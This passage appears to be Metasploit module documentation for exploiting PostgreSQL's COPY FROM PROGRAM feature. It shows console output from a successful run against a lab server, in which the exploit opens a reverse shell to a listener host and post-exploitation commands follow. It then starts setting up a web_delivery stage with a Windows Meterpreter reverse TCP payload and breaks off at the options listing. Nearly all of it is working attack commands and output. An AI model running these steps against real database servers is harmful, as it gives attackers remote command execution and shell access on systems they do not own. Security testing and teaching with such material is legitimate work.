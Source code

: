 
    Exploit target:

       Id  Name
       --  ----
       0   Automatic
   
     msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

    [*] Started reverse TCP handler on 192.168.0.18:4456
    [*] 192.168.0.25:5432 - 192.168.0.25:5432 - PostgreSQL 11.2 (Ubuntu 11.2-1.pgdg18.04+1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0, 64-bit
    [*] 192.168.0.25:5432 - Exploiting...
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable created successfully
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable copied successfully(valid syntax/command)
    [+] 192.168.0.25:5432 - 192.168.0.25:5432 - msftesttable dropped successfully(Cleaned)
    [*] 192.168.0.25:5432 - Exploit Succeeded
    [*] Command shell session 2 opened (192.168.0.18:4456 -> 192.168.0.25:51784) at 2019-03-24 18:07:11 +0000

    whoami
    postgres
    uname -a
    Linux ubuntu 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    /usr/lib/postgresql/11/bin/postgres -V
    postgres (PostgreSQL) 11.2 (Ubuntu 11.2-1.pgdg18.04+1)
   
### Exploiting PostgreSQL 10.7 on Windows 10

    
    msf5 exploit(multi/script/web_delivery) > set target 2
    target => 2
    msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/script/web_delivery) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf5 exploit(multi/script/web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
